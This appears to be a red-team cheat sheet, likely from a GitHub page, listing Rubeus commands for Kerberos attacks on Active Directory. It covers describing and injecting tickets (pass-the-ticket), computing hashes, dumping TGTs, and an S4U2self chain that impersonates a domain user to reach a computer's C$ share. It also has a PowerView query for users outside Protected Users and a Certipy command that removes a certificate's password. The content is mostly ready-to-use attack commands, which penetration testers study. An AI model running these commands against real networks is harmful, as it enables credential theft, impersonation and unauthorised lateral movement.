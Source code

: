 #### Get info on ticket
```
./Rubeus.exe describe /ticket:<TICKET FILE>
```

#### Load Ticket into memory
```
.\Rubeus.exe /ticket:<TICKET BASE64> /ptt
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE> /ptt
```

#### Calc hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

### S4U2self
- Gain access to a domain computer if we have its RC4, AES256 or TGT.
- There are means of obtaining a TGT for a computer without already having local admin access to it, such as pairing the Printer Bug and a machine with unconstrained delegation, NTLM relaying scenarios and Active Directory Certificate Service abuse

#### Dump TGT
```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<LUID> /service:krbtgt
```

#### Check for user to impersonate
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Request TGS
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /impersonateuser:<USER> /self /altservice:cifs/<COMPUTER FQDN> /user:<COMPUTERNAME>$ /ticket:<TGT TICKET> /nowrap
```

#### Load the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64> /ptt
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE> /ptt
```
 
#### Execute ls on the computer
```
ls \\<COMPOTERNAME FQDN>\C$
```

## Certipy
#### Unprotect pfx file for authentication certipy
```
certipy cert -export -pfx "cert.pfx" -password "<PASSWORD>" -out "cert-unprotected.pfx"
```
